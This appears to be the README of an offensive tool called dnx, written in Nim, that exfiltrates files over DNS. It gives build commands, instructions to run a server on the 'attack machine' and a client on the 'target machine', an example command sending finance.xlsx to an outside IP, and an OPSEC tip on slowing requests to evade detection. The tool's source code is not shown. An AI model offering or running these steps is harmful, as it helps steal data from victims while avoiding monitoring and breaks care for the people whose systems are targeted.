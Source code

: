 # dnx
Data exfiltration over DNS

### Compile
install the dependencies
```
nimble install ndns
nimble install zippy
```

Nim is cross compilation, compile according to your platform (e.g for Windows x64):
```
nim c -d:mingw -d:release --app:console --opt:size --cpu:amd64 ./dnx.nim
nim c -d:mingw -d:release --app:console --opt:size --cpu:amd64 ./dnxsvr.nim
```

### Instructions
Run dnxsvr on the attack machine:
```
.\dnxsvr.exe
```

Run dnx on the target machine:
```
.\dnx.exe
[!] Use: dnx.exe <IP> <File> <Time between requests in ms>
[!] e.g: dnx.exe 127.0.0.1 file.pdf 1000

.\dnx.exe 192.168.0.100 finance.xlsx 500
```

OPSEC:
The longer the time between requests, the more opsec!

### Inspired by
[Offensive Nim - dns_exfiltrate.nim](https://github.com/byt3bl33d3r/OffensiveNim/blob/master/src/dns_exfiltrate.nim)
